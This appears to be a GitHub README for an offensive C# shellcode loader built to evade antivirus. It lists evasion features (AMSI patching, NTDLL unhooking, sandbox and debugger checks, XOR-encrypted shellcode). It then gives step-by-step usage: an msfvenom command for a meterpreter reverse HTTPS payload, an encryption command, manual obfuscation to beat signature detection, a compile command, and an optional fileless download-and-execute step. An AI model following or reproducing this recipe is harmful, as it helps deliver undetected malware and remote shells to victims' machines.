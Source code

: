 ### C# ShellCode Loader 1
--------------------------------------
Shellcode loader (written in C#) that implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Implements shellcode injection using the function 'NtCreateThreadEx'
  - NTDLL unhooking (it loads a fresh new copy of ntdll.dll via file mapping and imports functions from this ntdll.dll)
  - Shellcode encryption (XOR)
  - AMSI bypass (AmsiScanBuffer patching technique)
  - Basic sandbox detection/evasion techniques
    - Exit if the program is running on a computer that is not joined to a domain
    - Exit if after sleeping for 15s, time did not really passed
    - Exit if a debugger is attached
    - Exit if making an uncommon API call fails (i.e. we are running in an AV sandbox that can't emulating it)
  - Compatible with shellcodes of multiple C2 frameworks such as Metasploit and Havoc
    
#### USAGE
  - STEP 1. Generate a raw shellcode with you favorite C2 framework
```
Examples
[*]  METASPLOIT C2 Framework 
    $ msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f raw -o stageless-raw-shellcode.bin

[*] HAVOC C2 Framework 
    Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64 / Indirect Syscall: Enabled / Sleep Technique: WaitForSIngleObjectEx) 
``` 

  - STEP 2. Use the tool 'SUPERNOVA' to convert your raw shellcode in C# format and encrypt it with the XOR algorithm
```  
[*] SuperNova is a shellcode encryptor & obfuscator tool - https://github.com/nickvourd/Supernova
    $ ./Supernova -debug -input ./shellcode-raw.bin -lang CSharp -enc xor -output ./encrypted-shellcode.bin
```

  - STEP 3. Insert your encrypted shellcode in the C# shellcode loader file along with the XOR key randomly generated by 'SUPERNOVA'

  - STEP 4. OPSEC requirements - Manually obfuscate the C# shellcode loader file
  	- Rename the namespace, classes, methods, and variables.
  	- Remove all existing comments and insert fake ones.
    - Remove all console output messages (i.e., Console.WriteLine("text")).
  	- Modify the code structure or logic slightly if needed to evade signature-based detection.

  - STEP 5. Compile the C# shellcode loader 
```  
[*] Example with "Developer PowerShell for VS 2022" - Microsoft (R) Visual C# Compiler
    Command: csc /t:exe /out:C:\path\Loader.exe C:\path\CsharpShellCodeLoader.cs
``` 
  - STEP 6. Optional Actions
  	- You may compress and obfuscate the shellcode loader executable using a packer such as ConfuserEx. However, this step is not strictly necessary—if you performed sufficient manual obfuscation in Step 4, the executable should bypass most antivirus solutions.
  	- Alternatively, you may choose to remotely download and execute the C# binary in memory using PowerShell and reflection-based code loading. This approach avoids writing the binary to disk, enhancing stealth and reducing forensic traces.
    
#### LICENSE
  - GNU General Public License v3.0
